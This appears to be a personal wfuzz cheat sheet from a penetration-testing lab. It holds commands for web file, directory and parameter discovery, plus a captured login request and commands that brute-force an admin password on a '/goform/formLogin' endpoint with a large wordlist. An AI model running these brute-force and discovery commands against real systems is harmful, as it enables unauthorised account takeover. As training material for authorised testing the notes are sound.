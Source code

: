 # Wfuzz

export URL="http://zda:80/FUZZ"


File Discovery

```
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "$URL"
```

Directory Discovery

```
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 403,404 "$URL" 
```

Parameter Discovery - check for files on the webserver that can be used maliciously

```
export URL="http://zda:80/index.php?FUZZ=data"
```

fuzzing parameter values on a target web app
fuzzing the "fpv" parameter with a common wordlist 


wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404,301 http://zda:80/index.php?fpv=FUZZ


Fuzz the password in Burp

```
POST /goform/formLogin HTTP/1.1
Host: 192.168.233.45
Content-Length: 64
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.233.45
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.233.45/index.asp
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

HtmlOnly=true&Login=admin&Password=dawg&loginButton=Submit+Login

```


RUn this command

wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404  -d "Login=admin&Password=dawg" http://192.168.233.45/index.asp

you can restrict file size of th erequest to remove erronious responses wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404  -d "Login=admin&Password=FUZZ" --hh 229 http://192.168.233.45:80/goform/formLogin

https://www.phrack.me/tools/2022/07/06/Ffuf-cheatsheet.html

